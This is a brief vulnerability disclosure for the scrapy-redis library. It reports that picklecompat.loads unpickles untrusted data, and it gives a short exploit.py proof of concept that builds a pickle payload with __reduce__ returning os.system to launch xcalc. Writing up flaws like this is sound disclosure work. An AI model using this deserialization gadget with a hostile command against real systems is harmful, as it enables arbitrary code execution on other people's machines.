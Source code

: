 # Description
scrapy-redis is a redis-based components for Scrapy. 
* **Vulnerability description**
    untrusted loading of data by the pickle.load function leading to Arbitrary code execution.

# Proof of Concept
Run exploit.py
```
import os
import pickle
#os.system('pip install scrapy_redis')
from scrapy_redis import picklecompat
#payload formation
class ArbitraryCode:
    def __reduce__(self):
        cmd = ('xcalc')
        return os.system, (cmd,)
dumps = pickle.dumps(ArbitraryCode())
picklecompat.loads(dumps)
```
* `pip3 install scrapy_redis`
* `python3 exploit.py`
